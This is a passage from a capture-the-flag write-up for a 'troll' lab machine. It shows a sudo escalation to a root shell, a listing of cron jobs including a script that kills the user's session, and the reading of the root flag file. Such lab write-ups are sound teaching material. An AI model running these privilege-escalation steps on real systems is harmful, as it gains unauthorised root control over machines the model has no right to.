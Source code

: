 ```bash
```

After few minutes we run /bin/bash with the sudo command, and we get root.

```bash
overflow@troll:/$ sudo /bin/bash
sudo: unable to resolve host troll
root@troll:/#
```

We list the cron jobs and show the script that kicks us out of the system.

```bash
root@troll:/# crontab -l | tail -2
*/5 * * * * /usr/bin/python /opt/lmao.py
*/2 * * * * /usr/bin/python /lib/log/cleaner.py

root@troll:/# cat /opt/lmao.py
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()

root@troll:/#
```

We move to the root directory and read the flag.

```bash
root@troll:/# cd root/
root@troll:/root# ls
proof.txt
root@troll:/root# cat proof.txt 
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
root@troll:/root#
```
